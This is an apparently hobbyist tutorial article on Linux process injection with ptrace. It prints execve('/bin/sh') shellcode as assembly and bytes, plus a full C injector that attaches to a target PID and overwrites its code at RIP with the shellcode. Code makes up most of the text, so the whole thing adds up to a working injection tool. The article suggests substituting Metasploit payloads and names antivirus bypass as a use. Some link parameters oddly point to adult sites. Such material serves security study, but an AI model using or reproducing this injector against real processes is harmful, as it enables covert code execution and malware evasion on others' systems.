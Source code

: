 # Process Injection in Linux using ptrace lib

In this paper, we'll learn about process injection in linux distros using PTRACE.

## Shellcode

First for that, we need our shellcode, i'll use my own, it's avaliable in my github: [_Link Here_](https://github.com/Yyax13/shellcode).

To make it easier, i'll show the shellcode in ASM down here:

```assembly x86_64
section .text
global _start

_start:
    xor rax, rax                        ; rax turns to null byte

    push rax                            ; push \0 (null byte) to the stack
    mov rbx, 0x68732f6e69622f           ; '/bin/sh' string
    push rbx

    mov rdi, rsp                        ; rdi (path) receive rbx ('/bin/sh\0')

    push rax                            ; null byte (execve require {path, NULL})
    push rdi                            ; ptr to our path
    mov rsi, rsp                        ; rsi (argv) receive
    
    xor rdx, rdx
    mov rax, 59
    
    syscall
```

The shellcode:

```c
unsigned char shellcode[] = {
  0x48, 0x31, 0xc0, 0x50, 0x48, 0xbb, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73,
  0x68, 0x00, 0x53, 0x48, 0x89, 0xe7, 0x50, 0x57, 0x48, 0x89, 0xe6, 0x48,
  0x31, 0xd2, 0xb8, 0x3b, 0x00, 0x00, 0x00, 0x0f, 0x05

};

```

The .asm has already been documented in the code and in the repo, so i'll not analyze it here.

## The injector

First we need to include everything that we need:

```c
#include <stdio.h>          // printf
#include <stdlib.h>         // NULL
#include <unistd.h>         // getpid and anything else
#include <errno.h>          // for errors
#include <sys/ptrace.h>     // the ptrace lib
#include <sys/wait.h>       // waitpid
#include <sys/user.h>       // type user_regs_struct
#include <sys/types.h>      // pid_t

```


And setup our shellcode:

```c
unsigned char shellcode[] = {
  0x48, 0x31, 0xc0, 0x50, 0x48, 0xbb, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73,
  0x68, 0x00, 0x53, 0x48, 0x89, 0xe7, 0x50, 0x57, 0x48, 0x89, 0xe6, 0x48,
  0x31, 0xd2, 0xb8, 0x3b, 0x00, 0x00, 0x00, 0x0f, 0x05

};

size_t shellcodeLen = sizeof(shellcode);
```

After that, we already can start the main function (if you want, you can make a function named "inject" and just call in main, who will just handle the argv).

```c
int main(int argc, char **argv)
```

The argc is args count, contains the count of how many args we used in CLI, the argv is a char* array, that contains the args.

### User input PID parsing

For parsing the PID, we need to handle if user insert the PID in CLI, and after that we parse the INT and cast to pid_t

```c
if (argc < 2) { // If args count is less than 2 (1st is the binary path)
    fprintf(stderr, "Usage: %s <pid>\n", argv[0]); // Print the correct usage
    return 1; // Return 1 (shell understand this like: "Some error occurred")

}

// Convert char* from argv to int (unsafe) and cast to pid_t
pid_t procID = (pid_t)atoi(argv[1]); // atoi do the conversion, but is unsafe, the convention is using strtol instead of atoi
if (procID <= 0) {
    fprintf(stderr, "Invalid PID\n");
    return 1;

}
```

After that we already have the target PID, if you want, you can check if the process really exists.

### Process attaching using PTRACE_ATTACH

After validating target PID, we need to attach it.<br>

> Attaching a process may need root perms, [that article](https://www.kernel.org/doc/Documentation/security/Yama.txt?utm_source=https://github.com/Yyax13/proc_injection) explain how you can check it.

```c
// Attach the PID and check for errors (return -1 = error)
if (ptrace(PTRACE_ATTACH, procID, NULL, NULL) == -1) { // PTRACE_ATTACH just need the PID, so we set NULL, NULL in other args
    perror("Can't attach"); // perror prints smt like: "Can't attach: wow i'm the error message"
    return 1; // End the program

}
```

### Waiting for process

Now, we need to stop the target process, if we don't, we won't be able to overwrite the process RIP.

We can stop using waitpid and the args: `PID, int *status`.

```c
// Wait for target proc stop
int status;
if (waitpid(procID, &status, 0) == -1) { // This '0' can be NULL too
    perror("Can't wait for target");
    goto detach; // Detach ptrace if some error happen

}
```

And check if everything is ok:

```c
// Check if proc successfuly stopped
if (!WIFSTOPPED(status)) { // WIFSTOPPED expands to (((status) & 0xff) == 0x7f) and check if the process stopped
    fprintf(stderr, "Target did not stop as expected\n");
    goto detach;

}
```

### Getting target process registers and RIP

> If you don't know what are "registers", you can read [this article](https://blog.codingconfessions.com/p/linux-context-switching-internals?utm_source=https://github.com/Yyax13/proc_injection)

Now, the process already is stopped, so we can get some info:

```c
// Get target registers of process
struct user_regs_struct regs; // Initialize the variable
if (ptrace(PTRACE_GETREGS, procID, 0, &regs) == -1) { // Use PTRACE_GETREGS with the args procID, 0, &regs to get the process registers (that '0' can be NULL)
    perror("Can't get target regs");
    goto detach;

}
```

Now, we have all registers, but we need to get the RIP, and it's easier than get registers:

```c
unsigned long address = regs.rip; // Just get the rip from regs struct
printf("Target RIP: 0x%llx\n", (unsigned long long)address); // Log
```

### Overwriting the RIP

Now we already can overwrite the RIP to insert our malicious shellcode (in that case, just spawn /bin/sh, but you can use a metasploit shellcode for example):

```c
size_t wordSize = sizeof(unsigned long); // Use sizeof because some CPU archs is different than 8
size_t nWords = (shellcodeLen + wordSize - 1) / wordSize; // Ceiling division: shellcode + wordsize - 1

for (size_t i = 0; i < nWords; i++) {
    unsigned long word = 0; // Current word
    size_t base = i * wordSize; // Base, is the offset in bytes

    // For loop that write the word byte-to-byte
    for (size_t ii = 0; ii < wordSize; ii++) {
        size_t idx = base + ii; // Current base + current byte
        unsigned char byte = (idx < shellcodeLen) ? shellcode[idx] : 0x90; // Create the byte (padding with 0x90 if needed)
        word |= ((unsigned long)byte) << (8 * ii); // I don't knew that, a |= b means a = a | b, it's a OR bit operator, and the << is a bit more complicated for that comment, article down

    }

    /*
      POKETEXT writes a word in the address of the process
      in our case, we use it to write our word in address + base (rip + current offset)
    */
    if (ptrace(PTRACE_POKETEXT, procID, (void*)(address + base), (void*)word) == -1) {
        perror("Some error occurred in POKETEXT");
        goto detach;

    }

    printf("Wrote 0x%lx --> 0x%llx\n", word, (unsigned long long)(address + base)); // Log

}
```

> If you don't know what is a word, read [this article](https://www.techtarget.com/whatis/definition/word?utm_source=pornhub.com)<br>
> If you don't know what is the byte order, read [this article](https://betterexplained.com/articles/understanding-big-and-little-endian-byte-order/?utm_source=roblox.com)<br>
> If you don't know what << do, read [this article](https://www.geeksforgeeks.org/cpp/left-shift-right-shift-operators-c-cpp/?utm_source=xvideos.com)

Injection done! Now we just need to detach the process and have fun

### Detaching the process

This is the final step, we just need to detach:

```c
if (ptrace(PTRACE_DETACH, procID, NULL, NULL) == -1) { // Very simple, i think that we don't need to explain that
    perror("Can't detach target");
    return 1;

}
```

### Error handling

If you really read this paper, you saw `goto detach` some times, and here is the `detach` label:

```c
detach: 
    if (ptrace(PTRACE_DETACH, procID, NULL, NULL) == -1) {
        perror("Can't detach target");
        
    }

    return 1;
```

## Conclusion

Process injection is a very interesting topic, and can be used in many ways, for example, to bypass some AVs, or to make a process run something that it don't need to run.

![[Demo in tria.ge](https://tria.ge/250929-vfegeaaj8w)](sandbox.png)

---

> Article by [@hoWo](https://github.com/Yyax13)